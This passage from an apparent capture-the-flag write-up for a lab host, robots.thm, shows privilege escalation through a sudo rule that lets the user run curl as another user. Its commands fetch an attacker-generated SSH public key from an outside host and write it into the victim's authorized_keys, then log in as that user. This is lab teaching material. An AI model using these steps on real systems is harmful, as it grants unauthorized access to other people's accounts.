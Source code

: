 Let's reproduce these steps, for example, the right path to go would be testing how this works first, let's point out at a test resource:

```
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ -o /tmp/test.txt
```

If we check the file now:

![Pasted image 20250317164513.png](../../IMAGES/Pasted%20image%2020250317164513.png)

But, what we need to find is who this file belongs to, either `dolivaw` or our user:

![Pasted image 20250317164614.png](../../IMAGES/Pasted%20image%2020250317164614.png)

It belongs to the `dolivaw` user, we can use this to escalate our privileges by modifying the authorized keys in ssh:

```
ssh-keygen
```

```
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://10.6.34.159:8000/id_rsa.pub -o id_rsa -o /home/dolivaw/.ssh/authorized_keys -k
```

And now, we can login as `dolivaw` using this:

```
sudo ssh dolivaw@robots.thm -i id_rsa
```

![Pasted image 20250317165458.png](../../IMAGES/Pasted%20image%2020250317165458.png)

